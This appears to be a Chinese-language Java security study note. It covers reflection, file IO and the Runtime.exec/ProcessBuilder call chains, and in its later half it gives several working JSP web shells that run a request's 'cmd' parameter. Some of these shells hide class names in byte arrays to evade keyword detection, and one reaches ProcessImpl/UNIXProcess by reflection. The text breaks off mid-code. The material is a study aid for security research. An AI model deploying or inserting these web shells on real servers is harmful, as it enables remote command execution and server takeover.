           //p.call();
   
   
           Class clazz = Class.forName("mxdx.phone");//反射获取了一个类。class类定义一个类来接受class.forname方法获取到的类
           //Object p2 = clazz.newInstance();//调用无参构造器，获取实例化对象。object定义一个对象，来接受clazz.newInstance获取到的实例化// 对象
           //System.out.println(p2);//反射获取到的对象可以使用phone类的方法
   
   
           //Constructor constructor = clazz.getConstructor();//反射获取到一个无参构造器。constructor类来接受了一个构造器。clazz类方法
           //System.out.println(constructor);
           //Object p3 = constructor.newInstance();//p3获取实例化对象
          // System.out.println(p3);
           
   
       }
   }
   
   ```

   


### constructor的newlnstance方法：

`Constructor.newInstance()`是Java反射API中的一个方法，用于实例化一个类。这个方法需要一个参数数组作为参数，该参数数组应包含用于实例化新对象的参数。

案例：

```
import java.lang.reflect.Constructor;  
  
public class Test {  
    public static void main(String[] args) {  
        try {  
            // 获取String类的Class对象  
            Class<?> stringClass = String.class;  
  
            // 获取String类的带有一个Object参数的构造器  
            Constructor<?> constructor = stringClass.getDeclaredConstructor(Object.class);  //获取构造器
  
            // 使用得到的构造器创建新的String实例，参数为"Hello World"  
            String string = (String) constructor.newInstance("Hello World");  
  
            // 打印新创建的String实例  
            System.out.println(string);  
        } catch (Exception e) {  
            e.printStackTrace();  
        }  
    }  
}
```

在这个例子中，我们首先获取了`String`类的`Class`对象。然后，我们使用`getDeclaredConstructor()`方法获取到`String`类的带有一个`Object`参数的构造器。这个构造器对应于`String(Object)`的构造函数。然后，我们使用`constructor.newInstance()`方法创建了一个新的`String`实例，参数为字符串`"Hello World"`。最后，我们打印出新创建的`String`实例。

需要注意的是，如果尝试获取私有构造器或存在访问权限问题，`getDeclaredConstructor()`可能会抛出异常。此外，如果构造函数需要多个参数，你可以传递一个参数数组，该数组包含所有需要的参数。如果构造函数不需要参数，你可以传递一个空数组。


### 获取构造器案例：

```
package myJavaSecurity;

import java.lang.reflect.Constructor;

    public class TestReflectConstructor {
        public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException {
            Class p=Class.forName("mxdx.phone");//p接受phone类

            Constructor constructor=p.getConstructor(double.class, String.class);//获取phone类的默认静态构造器
            //括号中表示获取double的原生类，然后getConstructor再获取它的构造器
            System.out.println("public类型的构造器：");
            System.out.println(constructor);

            Constructor[] constructors = p.getConstructors();//定义了一个数组获取的是全部类型的构造器
            System.out.println("全部public类型的构造器：");
            for (int i = 0; i < constructors.length; i++) {
                System.out.println(constructors[i]);
            }

            Constructor constructor1 = p.getDeclaredConstructor(String.class);//可以获取任何类型的构造器，包括私有等
            System.out.println("private和public类型的构造器：");
            System.out.println(constructor1);

            Constructor[] constructors1 = p.getDeclaredConstructors();//定一个数组，getDeclaredConstructors获取所有构造器
            System.out.println("全部类型的构造器：");
            for (int i = 0; i < constructors1.length; i++) {
                System.out.println(constructors1[i]);
            }
        }
    }

```


### 获取类属性：

反射获取类属性：

1. 获取Class对象：首先，你需要获取你想要检查的类的Class对象。你可以使用`Class.forName()`方法来获取这个对象。例如，`Class<?> myClass = Class.forName("com.example.MyClass");`

2. 获取DeclaredField对象：然后，你可以使用`Class#getDeclaredField()`方法来获取类的字段（属性）。这个方法返回一个DeclaredField对象，代表类的字段。例如，`Field field = myClass.getDeclaredField("myField");`

3. 设置可访问性：如果字段是私有的，你需要使用`Field#setAccessible(true)`方法来设置它的可访问性。例如，`field.setAccessible(true);`

4. 获取字段值：现在，你可以使用`Field#get()`方法来获取字段的值。这个方法需要一个对象作为参数，表示字段应该从哪个对象中获取。例如，`Object value = field.get(myObject);`

   ```
   import java.lang.reflect.Field;  
     
   public class ReflectionExample {  
       public static void main(String[] args) {  
           try {  
               // 获取Class对象  
               Class<?> myClass = Class.forName("com.example.MyClass");  
     
               // 创建实例  
               Object myObject = myClass.getDeclaredConstructor().newInstance();  
     
               // 获取字段  
               Field field = myClass.getDeclaredField("myField");  
     
               // 设置可访问性  
               field.setAccessible(true);  
     
               // 获取字段值  
               Object value = field.get(myObject);  
     
               System.out.println("Value: " + value);  
           } catch (Exception e) {  
               e.printStackTrace();  
           }  
       }  
   }
   ```

反射获取类属性的几种方法：

```
//1.获取类的一个public类型属性:getField(String name)
Class p=Class.forName("test.phone");
Field f=p.getField("name");
```

```
//2.获取类的一个全部类型的属性:getDeclaredField(String name)
 Class p=Class.forName("test.phone");
 Field f=p.getDeclaredField("weight");
```

```
//3.获取类的全部public类型的属性:getFields()
 Class p=Class.forName("test.phone");
 Field[] f=p.getFields(); //同样要注意改成数组
```

```
//4.获取类的全部类型的属性:getDeclaredFields()
Class p=Class.forName("test.phone");
Field[] f=p.getDeclaredFields(); //同样要注意改成数组
```

实例：

```
package myJavaSecurity;

import java.lang.reflect.Field;

public class TestReflectField {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchFieldException {
        Class p = Class.forName("myJavaSecurity.demoTip");

        Field field = p.getField("price");//只能获取public的属性，现获取字段
        System.out.println("获取类的一个public类型属性：");
        System.out.println(field);

        Field[] fields = p.getFields();
        System.out.println("获取类的所有public类型属性：");
        for (int i = 0; i < fields.length; i++) {
            System.out.println(fields[i]);
        }

        Field field1 = p.getDeclaredField("age");//获取一个任意类型的属性
        System.out.println("获取类的一个所有类型属性：");
        System.out.println(field1);

        Field[] fields1 = p.getDeclaredFields();
        System.out.println("获取类的所有所有类型属性：");
        for (int i = 0; i < fields1.length; i++) {
            System.out.println(fields1[i]);
        }
    }
}
```


### 获取类中的方法（method）：

四种方式：

```
//1.获取类的一个特定public类型的方法:getMethod(String name,class[] parameterTypes)
Class p=Class.forName("test.phone");
Method m=p.getMethod("setName", String.class); //要注意这里有两个参数，后面要传入的是方法形参的类型的原型,无参函数就不用填
```

```
//2.获取类的一个特定无论什么类型的方法:getDeclaredMethod(String name,class[] parameterTypes)
Class p=Class.forName("test.phone");
Method m=p.getDeclaredMethod("setName", String.class);
```

```
//3.获取类的全部public的方法:getMethods()
Class p=Class.forName("test.phone");
Method[] m=p.getMethods();//要注意改成数组
```

```
//4.获取类的全部类型的方法:getDeclaredMethods()
 Class p=Class.forName("test.phone");
 Method[] m=p.getDeclaredMethods(); //同样要注意改成数组
```

案例：

```
package myJavaSecurity;

import java.lang.reflect.Method;

public class TestReflectMethod  {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException {
        Class p = Class.forName("myJavaSecurity.demoTip");

        Method method = p.getMethod("drink", String.class);//只能获取public类型的方法  //String.class参数是为了准确匹配方法
        //Sting.class是为了指定它是一个原生类，是一个类
        System.out.println("获取类的一个特定public类型的方法：");
        System.out.println(method);

        Method[] methods = p.getMethods();
        System.out.println("获取类的所有public类型的方法：");
        for (int i = 0; i < methods.length; i++) {
            System.out.println(methods[i]);
        }

        Method method1 = p.getDeclaredMethod("say");
        System.out.println("获取类的一个特定任意类型的方法：");
        System.out.println(method1);

        Method[] methods1 = p.getDeclaredMethods();
        System.out.println("获取类的所有类型的方法：");
        for (int i = 0; i < methods1.length; i++) {
            System.out.println(methods1[i]);
        }

    }
}

```


### 反射完整执行流程：

```
Class p=Class.forName("test.phone");           //获取phone类的原型
Constructor constructor=p.getConstructor();      //获取无参的构造器
Object o=constructor.newInstance();             //实例化一个对象o
Method m=p.getMethod("dianyuan");               //获取方法dianyuan
m.invoke(o);                                    //运用Method的invoke方法来执行这个类的方法
Method m1=p.getMethod("setName", String.class); //获取方法setName
Method m2=p.getMethod("getName");               //获取方法getName
m1.setAccessible(true);							//私有方法需要通过Method的setAccessible方法更改权限
m1.invoke(o,"8848");                            //执行setName方法，为Name属性赋值
System.out.println(m2.invoke(o));             //调用getName的方法并打印返回值
```

m.invoke(o)表示利用反射执行o对象可以获取到的方法m


### 反射执行实例：

```
package myJavaSecurity;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class testReflectExec {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Class myclass=Class.forName("myJavaSecurity.demoTip");
        Constructor constructor=myclass.getConstructor();
        Object player=constructor.newInstance();
        Method method=myclass.getMethod("say");
        method.invoke(player);

        
        demoTip player1=new demoTip();
        player1.say();//正射
    }

}

```


实例2：

```
package com.y5neko.sec.reflect;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class TestReflect {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        //获取类
        Class p = Class.forName("com.y5neko.sec.phone.phone");

        //获取无参构造器
        Constructor constructor = p.getConstructor();

        //获取有参构造器
        Constructor constructor1 = p.getConstructor(String.class, double.class);

        //获取实例化对象(无参实例化)
        Object o = constructor.newInstance();

        //获取实例化对象(有参实例化)
        Object o1 = constructor1.newInstance("IQOO",12.5);

        //获取方法dianyuan
        Method method = p.getDeclaredMethod("dianyuan");

        //通过method类的invoke方法来执行这个类的方法
        method.invoke(o);

        //获取方法setName, getName, poweroff
        Method method1 = p.getDeclaredMethod("setName", String.class);
        Method method2 = p.getDeclaredMethod("getName");
        Method method3 = p.getDeclaredMethod("poweroff");
        //invoke反射执行
        method1.invoke(o,"IQOO11");
        System.out.println(method2.invoke(o));
        //私有类型，通过setAccessible方法更改权限
        method3.setAccessible(true);
        method3.invoke(o);
    }
}
```


### 反射runtime类执行命令：

Runtime类是Java语言中的一个类，它代表了Java运行时环境。这个类提供了一些方法，可以用来与Java运行时环境进行交互。例如，我们可以使用Runtime类的exec方法来执行一个外部命令。

现在，让我们来看看如何使用反射来获取Runtime类并调用它的方法。首先，我们需要获取Runtime类的Class对象。我们可以使用Class.forName方法来获取这个对象。例如：

```java
java复制代码

Class runtimeClass = Class.forName("java.lang.Runtime");
```

接下来，我们可以使用getDeclaredConstructor方法来获取Runtime类的构造函数。这个方法返回一个Constructor对象，代表Runtime类的构造函数。我们可以使用newInstance方法来创建Runtime类的实例。例如：

```java
Constructor constructor = runtimeClass.getDeclaredConstructor();  
Object runtime = constructor.newInstance();
```

现在，我们已经创建了一个Runtime类的实例，我们可以使用这个实例来调用Runtime类的方法。例如，我们可以使用exec方法来执行一个外部命令。这个方法接受一个字符串参数，代表要执行的命令。例如：

```java
Method execMethod = runtimeClass.getMethod("exec", String.class);  
execMethod.invoke(runtime, "ls");
```

在这个例子中，我们首先获取了Runtime类的exec方法，然后使用invoke方法来调用这个方法并传递一个字符串参数。这个字符串参数代表要执行的命令。在这个例子中，我们执行了“ls”命令，列出了当前目录下的所有文件和文件夹。

总之，通过反射，我们可以获取Runtime类并调用它的方法来执行外部命令。这是一个非常强大的工具，可以让我们在Java程序中执行任意的命令。

**setAccessible方法：**

setAccessible() 是一个方法，可以修改Java语言访问控制检查的行为。这个方法属于 AccessibleObject 类，而 Field、Method 和 Constructor 类都继承自这个类。

一般情况下，我们并不能对类的私有字段进行操作，利用反射也是如此。然而，在某些情况下，例如要序列化的时候，我们又必须有能力去处理这些字段。这时候，我们就需要调用 AccessibleObject 上的 setAccessible() 方法来允许这种访问。

setAccessible() 方法的参数是一个布尔值，为 true 则启用访问，为 false 则禁用访问。但实际上，这个方法的设置并不是简单的开或关，它的真实作用是压制Java语言访问控制检查。也就是说，当 setAccessible(true) 时，即使被私有化保护的方法、域和构造方法也能被访问。

但是，这种操作有一定的风险。因为如果我们试图访问的对象没有设置正确的访问权限，那么程序可能会崩溃或出现未预期的行为。因此，虽然 setAccessible() 方法可以让我们更灵活地操作对象，但在使用时仍需谨慎。

反射案例：

```
package myJavaSecurity;

import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Method;

public class runtimeDemo {
    public static void main(String[] args) throws ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException, IllegalAccessException {
        Class clazz = Class.forName("java.lang.Runtime");
        Constructor constructor= clazz.getDeclaredConstructor();
        constructor.setAccessible(true);
        Object o=constructor.newInstance();
        Method method= clazz.getMethod("exec",String.class);
        method.invoke(o,"calc");


    }
}

```


## Java文件系统：

### io流：

概述：

io流按照方向来分可以分为输入流和输出流两种

io流按照操作系统类型又可以分为字符流和字节流

io流按功能分：节点流：用于直接操作目标设备的流；过滤流：是对一个已存在的流的链接和封装，通过对数据进行处理为程序提供功能强大、灵活的读写功能。


### fileinputstream文件读取：

```
public class TestFileInputStream {
    public static void main(String[] args) throws IOException {
        //创建文件对象
        File file = new File("C:\\Windows\\System32\\drivers\\etc\\hosts");

        //打开文件对象，创建文件输入流
        FileInputStream fis = new FileInputStream(file);

        //定义每次输入流读取的字节数对象
        int len = 0;

        //创建字节缓冲区对象，定义缓冲区大小
        byte[] bytes = new byte[1024];

        //创建字节输出流对象
        ByteArrayOutputStream baos = new ByteArrayOutputStream();

        //循环读取文件内容
        //read方法将文件输入流中的内容读取（剪切）到bytes内存中，bytes缓冲区有多大就读多长，读完了就返回-1
        while ((len = fis.read(bytes)) != -1){
            //write方法截取bytes缓冲区数组中的内容到baos字节输出流对象中
            //(bytes, 0, len)其中的0表示从bytes数组的下标0开始截取，len表示输入流read到的字节数
            baos.write(bytes, 0, len);
        }

        System.out.println(baos);
    }
}
```

### fileoutputstream文件输出流：

```
import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;

public class TestFileOutputStream {
    public static void main(String[] args) throws IOException {
        File file = new File("D:/test.txt");

        String content = "Hello!";

        FileOutputStream fos = new FileOutputStream(file);

        //通过getBytes方法获得字节数组，向文件输出流中写入
        fos.write(content.getBytes());
        //flush方法是为了清空缓冲区
        fos.flush();
        fos.close();
    }
}
```

flush方法是字节输出流的抽象父类OutputStream的方法，所以每个字节输出流类都会有flush方法。但是有些没有缓冲区的类flush方法只是被重写了，但什么都不做，也就是方法体是为空的。所以FileOutputStream调用flush方法什么都没做。另外，close方法也会强制清空缓冲区，因此不写flush也是可以的，但对于不能马上调用close方法的，还是需要用flush方法强制清空一下。毕竟一旦调用close方法，这个流对象也就不能用了。

### FileSystemProvider：

JDK7新增的NIO.2的`java.nio.file.spi.FileSystemProvider`,利用`FileSystemProvider`我们可以利用支持异步的通道(`Channel`)模式读取文件内容。

读文件：

```java
public class TestFileSystemProviderInput {

    public static void main(String[] args) {

        // 定义读取的文件路径
        Path path = Paths.get("D:/test.txt");

        try {
            byte[] bytes = Files.readAllBytes(path);
            System.out.println(new String(bytes));
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}
```

写文件：

```
public class TestFileSystemProviderOutput {

    public static void main(String[] args) {
        // 定义读取的文件路径
        Path path = Paths.get("D:/test.txt");

        // 定义待写入文件内容
        String content = "Hello Y5neKO!";

        try {
            // 写入内容二进制到文件
            Files.write(path, content.getBytes());
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

}
```


## 命令执行：

### 命令执行流程：

常用的是 `java.lang.Runtime#exec()`和 `java.lang.ProcessBuilder#start()`，除此之外，还有更为底层的`java.lang.ProcessImpl#start()`，他们的调用关系如下图所示：


其中，ProcessImpl类是Process抽象类的具体实现，且该类的构造函数使用private修饰，所以无法在java.lang包外直接调用，只能通过反射调用ProcessImpl#start()方法执行命令。


### runtime：

runtime.getruntime.exec命令执行方法：

```
package myJavaSecurity;

import java.io.IOException;

public class runtimeLian {
    public static void main(String[] args) throws IOException {
        Runtime.getRuntime().exec("calc");
        //因为runtime类构造器私有，没法直接new实例化，所以系统给出一个getruntime方法，这是java的一种安全机制叫做内部实例化，使用getruntime
        //方法就可以实例化一个runtime对象，再调用exec命令执行方法
        Runtime runtime = Runtime.getRuntime();
    }
}
```


### exec调用链：

#### 简介

Java中，Runtime类提供了许多的API来与`java runtime environment`进行交互，如：

- 执行一个进程。
- 调用垃圾回收。
- 查看总内存和剩余内存。

Runtime是单例的，可以通过`Runtime.getRuntime()`得到这个单例。

#### API列表

一些常见的API


这里详细分析exec的调用链

#### exec调用链

首先找到接口位置，位于`java.lang`的`Runtime`类

首先通过`getRuntime`方法获取一个Runtime对象


紧接着调用exec方法，可以看到exec一共有六个重载方法



其中完整的参数有三个，command、envp、dir，位置和类型如上，其中command为必须，envp和dir为可选；envp为环境变量，没有envp参数或许为null，那么新发动的进程就承继当时java进程的环境变量；dir为工作目录，没有dir参数或许为null，那么新发动的进程就承继当时java进程的工作目录；我们按顺序来看

##### java.lang.Runtime.java:347



第一个重载方法是在只传入一个String类型时执行的方法，此时envp和dir参数为null，官方的注释为：在单独的进程中执行指定的字符串命令。

##### java.lang.Runtime.java:387


第二个重载方法只有dir参数为空，官方的注释为：在具有指定环境的单独进程中执行指定的字符串命令。

##### java.lang.Runtime.java:441


第三个重载方法三个参数都有，官方的注释为：在具有指定环境和工作目录的单独进程中执行指定的字符串命令。

这个方法用到了`StringTokenizer`类，作用是根据某些字符做间隔进行分割字符，具体形式后面再具体分析；最后转变为cmdarray数组传入了exec方法

##### 省略

中间两个重载方法同上，只是command参数变成了直接接受cmdarray数组，中间会调用cmdarray的处理方法，暂时先不看

##### java.lang.Runtime.java:620

接下来来到重点最后一个重载方法


上面的方法return到最后一个重载方法，此时准备好调用`ProcessBuilder`类创建process

> Process类将持有该程序返回 Java VM 的引用。这个procss类是一个抽象类，具体子类的实现依赖于不同的底层操作系统。

而这个process类型需要通过`ProcessBuilder.start()`方法进行创建

##### java.lang.ProcessBuilder.java:1029

跟进到`ProcessBuilder.start()`方法，通过上面的步骤对cmdarray数组进行解析，取出cmdarray[0]赋值给prog,如果安全管理器SecurityManager开启,会调用SecurityManager#checkExec()对执行程序prog进行检查，检查通过后调用`ProcessImpl`类的`start`方法


##### java.lang.ProcessImpl.java:87

跟进到`java.lang.ProcessImpl.java`，根据官方注释，`ProcessImpl`类仅用于`ProcessBuilder.start()`创建新Process


我们继续跟进到`ProcessBuilder.start()`方法，Windows下会调用`ProcessImpl`类的构造方法，如果是Linux环境，则会调用`java.lang.UNIXProcess#init<>`




##### java.lang.ProcessImpl.java:314

这里以Windows为例，跟进`ProcessImpl`类构造方法


构造方法内，通过`SecurityManager`类进行安全校验，通过`allowAmbiguousCommands`变量作为是否允许调用本地进程的开关，只有当两种检查都通过的时候，则进入`Legacy mode(传统模式)`


传统模式调用`needsEscaping`，这一步是为了对没有被双引号包裹的空格进行处理，最后通过`createCommandLine`拼接成字符串


##### java.lang.ProcessImpl.java:386

最后通过`ProcessImpl.create`方法创建进程


##### ProcessImpl.create

这是一个Native方法（Java调用非Java代码的接口），根据JNI命名规则，会调用`ProcessImpl_md.c`中的`Java_Java_lang_ProcessImpl_create`，我们来看看`ProcessImpl_md.c`的源码

> ProcessImpl_md.c源码：
>
> http://hg.openjdk.java.net/lambda/lambda/jdk/file/e6aeeec33e53/src/windows/native/java/lang/ProcessImpl_md.c


可以看到接受来自java的参数，而在216行，我们可以看到调用了Windows的api函数`CreateProcessW()`，他的作用是用来创建一个Windows进程


我们来看看Windows官方的定义

> https://learn.microsoft.com/zh-cn/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw


##### 总结

通过观察上面的整个流程，我们可以总结出`Runtime.exec`的整个调用链

```java
//传入参数
Runtime.getRuntime().exec(cmd);

//六个重载函数，根据传入不同的数据类型和参数个数进入，最终都处理成‘String[] cmdarray, String[] envp, File dir’的形式，调用最后一个重载函数
java.lang.Runtime.java:620
    
//调用ProcessBuilder类的start函数
java.lang.ProcessBuilder.java:1029
    
//根据操作系统类区分，如果是Windows则进入ProcessImpl类的构造方法，如果是Linux则调用java.lang.UNIXProcess#init<>；以Windows为例（都是创建process对象）

```

#### Windows下调用cmd

```java
String [] cmd = {"cmd","/C","calc.exe"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### Linux下调用/bin/bash

```java
String [] cmd = {"/bin/bash","-c","ls"};
Process proc = Runtime.getRuntime().exec(cmd);
```

#### 根据系统选择合适的解释器

```java
System.getProperty("os.name");
```


## JSP本地命令执行：

jsp就是Java的网页文件

Java原生提供了对本地系统命令执行的支持，黑客通常会`RCE利用漏洞`或者`WebShell`来执行系统终端命令控制服务器的目的。

对于开发者来说执行本地命令来实现某些程序功能(如:ps 进程管理、top内存管理等)是一个正常的需求，而对于黑客来说`本地命令执行`是一种非常有利的入侵手段。

#### Runtime命令执行测试

#### runtime-exec2.jsp

```jsp
<%=Runtime.getRuntime().exec(request.getParameter("cmd"))%>

www.y5neko.com/1.jsp?cmd=whoami
```


这样执行命令没有回显，我们可以通过字节输入流读取回显结果

示例：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.io.InputStream" %>
<%
  InputStream in = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();
  ByteArrayOutputStream baos = new ByteArrayOutputStream();
  int a;
  byte[] bytes = new byte[1024];
  while ((a = in.read(bytes)) != -1){
    baos.write(bytes,0,a);
  }
  out.write("命令结果：\n" + baos);
%>
```


#### runtime.exec调用链：

`Runtime.exec(xxx)`调用链如下:

```java
org.apache.jsp.runtime_002dexec_jsp._jspService(runtime_002dexec_jsp:114)
java.lang.Runtime.exec(Runtime.java:347)
java.lang.Runtime.exec(Runtime.java:450)
java.lang.Runtime.exec(Runtime.java:620)
java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
java.lang.ProcessImpl.start(ProcessImpl.java:134)
//如果是Linux则继续跟进
java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
```

通过观察整个调用链我们可以清楚的看到`exec`方法并不是命令执行的最终点，执行逻辑大致是：

1. `Runtime.exec(xxx)`
2. `java.lang.ProcessBuilder.start()`
3. `new java.lang.UNIXProcess(xxx)`
4. `UNIXProcess`构造方法中调用了`forkAndExec(xxx)` native方法。
5. `forkAndExec`调用操作系统级别`fork`->`exec`(*nix)/`CreateProcess`(Windows)执行命令并返回`fork`/`CreateProcess`的`PID`。

有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，切记`Runtime`和`ProcessBuilder`并不是程序的最终执行点!

#### jsp反射runtime类命令执行：

如果我们不希望在代码中出现和`Runtime`相关的关键字，我们可以全部用反射代替。

```java
<%@ page contentType="text/html;charset=UTF-8" %>
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>

<%
    //定义request接收的参数
    String str = request.getParameter("cmd");

    //定义"java.lang.Runtime"字节变量，隐藏Runtime关键字，获取runtime类
    String rt = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    //String re=new String(java.lang.runtime)

    //反射获取Runtime类对象
    Class<?> clazz = Class.forName(rt);

    //反射获取getRuntime方法
    Method method_getRuntime = clazz.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    //Method method_getRuntime = clazz.getMethod("getRuntime",String.class)

    //反射获取exec方法
    Method method_exec = clazz.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);

    //反射调用Runtime.getRuntime.exec()方法
    //Object object_getRuntime = method_getRuntime.invoke(null);
    //Object object_exec = method_exec.invoke(object_getRuntime, str);
    Object object = method_exec.invoke(method_getRuntime.invoke(null), str);

    //反射获取Process类的getInputStream方法
    Method method_getInputStream = object.getClass().getMethod(new String(new byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    method_getInputStream.setAccessible(true);

    //获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object, new Object[]{})).useDelimiter("\\A");
    String result = scanner.hasNext() ? scanner.next() : "";

    out.write(result);
%>
```

#### ProcessBuilder命令执行:

学习`Runtime`命令执行的时候我们讲到其最终`exec`方法会调用`ProcessBuilder`来执行本地命令，那么我们只需跟踪下Runtime的exec方法就可以知道如何使用`ProcessBuilder`来执行系统命令了。

```
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%
    InputStream  ios=new ProcessBuilder(request.getParameter("a")).start().getInputStream();
    //这里使用了request.getParameter方法的原因是processbuilder只接收字符数组，getInputStream表示获取inputstream
    ByteArrayOutputStream bos = new ByteArrayOutputStream();
    byte [] bytes =new byte[1024];
    int len;
    while ((len = ios.read(bytes))!=-1){
        bos.write(bytes,0,len);//len可以理解为个数，读取到的个数
    }
    out.write(bos.toString());

        %>
```


#### jsp反射processbuilder命令执行：

代码：

```
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page contentType="text/html;charset=UTF-8" %>

<%
    //接收request数组对象
    Object cmd = request.getParameterValues("cmd");
    out.write(cmd.toString());

    //反射获取java.lang.ProcessBuilder类
    Class clazz = Class.forName(new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 66, 117, 105, 108, 100, 101, 114}));
//byte接收字节数组，String类构造器自动转成字符串

    //反射获取有参构造器
    Constructor constructor = clazz.getConstructor(String[].class);
//获取有参构造器中的一个，...表示数组

    //反射获取start方法
    Method method_start = clazz.getMethod("start");

    //实例化获取对象
    Object object = constructor.newInstance(cmd);//因为有参构造器需要一个参数，来接受命令
    Object object2 = method_start.invoke(object);//start方法返回一个process对象，定义对象来接受是为了后期打印

    out.write(object2.toString());
    //反射执行getInputStream方法
  Method method_getInputStream = object2.getClass().getDeclaredMethod("getInputStream");
  method_getInputStream.setAccessible(true);

  //输出结果
  Scanner scanner = new Scanner((InputStream) method_getInputStream.invoke(object2, new Object[]{})).useDelimiter("\\A");
  String result = scanner.hasNext() ? scanner.next() : "";

  out.write(result);
%>
```

#### UNIXProcess/ProcessImpl：

`UNIXProcess`和`ProcessImpl`其实就是最终调用`native`执行系统命令的类，这个类提供了一个叫`forkAndExec`的native方法，如方法名所述主要是通过`fork&exec`来执行本地系统命令。

`UNIXProcess`类的`forkAndExec`示例：

```
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

#### 反射UNIXProcess/ProcessImpl执行本地命令：

```
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.*" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>

<%!
    byte[] toCString(String s) {
        if (s == null) {
            return null;
        }

        byte[] bytes  = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0, result, 0, bytes.length);
        result[result.length - 1] = (byte) 0;
        return result;
    }

    InputStream start(String[] strs) throws Exception {
        // java.lang.UNIXProcess
        String unixClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 85, 78, 73, 88, 80, 114, 111, 99, 101, 115, 115});

        // java.lang.ProcessImpl
        String processClass = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 80, 114, 111, 99, 101, 115, 115, 73, 109, 112, 108});

        Class clazz = null;

        // 反射创建UNIXProcess或者ProcessImpl
        try {
            clazz = Class.forName(unixClass);
        } catch (ClassNotFoundException e) {
            clazz = Class.forName(processClass);
        }

        // 获取UNIXProcess或者ProcessImpl的构造方法
        Constructor<?> constructor = clazz.getDeclaredConstructors()[0];
        constructor.setAccessible(true);

        assert strs != null && strs.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[strs.length - 1][];

        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = strs[i + 1].getBytes();
            size += args[i].length;
        }

        byte[] argBlock = new byte[size];
        int    i        = 0;

        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc    = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        FileInputStream  f0 = null;
        FileOutputStream f1 = null;
        FileOutputStream f2 = null;

        // In theory, close() can throw IOException
        // (although it is rather unlikely to happen here)
        try {
            if (f0 != null) f0.close();
        } finally {
            try {
                if (f1 != null) f1.close();
            } finally {
                if (f2 != null) f2.close();
            }
        }

        // 创建UNIXProcess或者ProcessImpl实例
        Object object = constructor.newInstance(
                toCString(strs[0]), argBlock, args.length,
                null, envc[0], null, std_fds, false
        );

        // 获取命令执行的InputStream
        Method inMethod = object.getClass().getDeclaredMethod("getInputStream");
        inMethod.setAccessible(true);

        return (InputStream) inMethod.invoke(object);
    }

    String inputStreamToString(InputStream in, String charset) throws IOException {
        try {
            if (charset == null) {
                charset = "UTF-8";
            }

            ByteArrayOutputStream out = new ByteArrayOutputStream();
            int                   a   = 0;
            byte[]                b   = new byte[1024];

            while ((a = in.read(b)) != -1) {
                out.write(b, 0, a);
            }

            return new String(out.toByteArray());
        } catch (IOException e) {
            throw e;
        } finally {
            if (in != null)
                in.close();
        }
    }
%>
<%
    String[] str = request.getParameterValues("cmd");

    if (str != null) {
        InputStream in     = start(str);
        String      result = inputStreamToString(in, "UTF-8");
        out.println("<pre>");
        out.println(result);
        out.println("</pre>");
        out.flush();
        out.close();
    }
%>
```

```
代码案例：
String[] cmds = {"ipconfig","/all"};
        Class clazz = Class.forName("java.lang.ProcessImpl");
        Method method = clazz.getDeclaredMethod("start", new String[]{}.getClass(), Map.class,String.class,ProcessBuilder.Redirect[].class,boolean.class);
        method.setAccessible(true);
        InputStream ins = ((Process) method.invoke(null,cmds,null,".",null,true)).getInputStream();
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        byte[] bytes = new byte[1024];
        int size;
